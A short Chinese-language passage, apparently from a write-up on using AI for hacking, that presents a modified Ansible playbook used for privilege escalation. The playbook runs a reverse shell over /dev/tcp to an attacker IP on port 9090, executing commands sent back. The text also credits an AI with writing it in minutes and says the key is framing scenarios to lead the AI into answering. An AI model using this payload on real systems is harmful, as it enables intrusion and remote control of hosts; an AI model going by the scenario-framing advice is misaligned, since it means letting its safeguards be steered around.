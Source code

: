 ![](./img/AI-hacking/Abuse-Ansible-2.png)

经过修改后 我们的 payload 如下

```ansible
- hosts: localhost
  tasks:
  - name: Execute command on remote host
    shell: exec 5<>/dev/tcp/[MY-IP]/9090;cat <&5 | while read line; do $line 2>&5 >&5; done
```

把 Payload.yml 直接放进文件夹后提权。

AI 短短几分钟就解决了我们的需求，而常规情况下我们需要先了解 Ansible 是什么，了解完基本的语法后，了解 shell 执行模块，谷歌搜索可能要多两次才能解决问题。

AI 掌握了怎么样去询问，怎么样去设置合理的情景去引导 AI 他进行回答即可。
